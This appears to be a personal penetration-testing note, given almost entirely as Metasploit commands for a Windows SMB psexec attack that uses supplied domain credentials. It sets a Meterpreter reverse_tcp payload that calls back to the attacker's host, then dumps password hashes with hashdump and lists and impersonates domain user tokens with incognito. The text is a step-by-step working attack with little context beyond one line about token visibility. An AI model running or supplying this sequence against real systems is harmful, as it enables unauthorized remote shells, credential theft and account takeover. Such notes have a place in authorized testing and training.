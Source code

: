 
```bash - kali
sudo msfdb run
```

```metasploit - kali
use exploit/windows/smb/psexec
```

```metasploit - kali
set rhost $TARGET
```

```metasploit - kali
set smbdomain $DOMAIN
```

```metasploit - kali
set smbpass $PASSWORD
```

```metasploit - kali
set smbuser $USER
```

```metasploit - kali
show targets
```

```metasploit - kali
set target 2
```

```metasploit - kali
set payload windows/x64/meterpreter/reverse_tcp
```

```metasploit - kali
set lhost eth0
```

```metasploit - kali
run
```

```metasploit - kali
hashdump
```

![[Pasted image 20211227202153.png]]

```metasploit - kali
getuid
```

```metasploit - kali
sysinfo
```

```metasploit - kali
load incognito
```

```metasploit - kali
list_tokens -u
```

Impersonate token will only show users who are logged in until rebooted.

```metasploit - kali
impersonate_token $DOMAIN\$USER
```

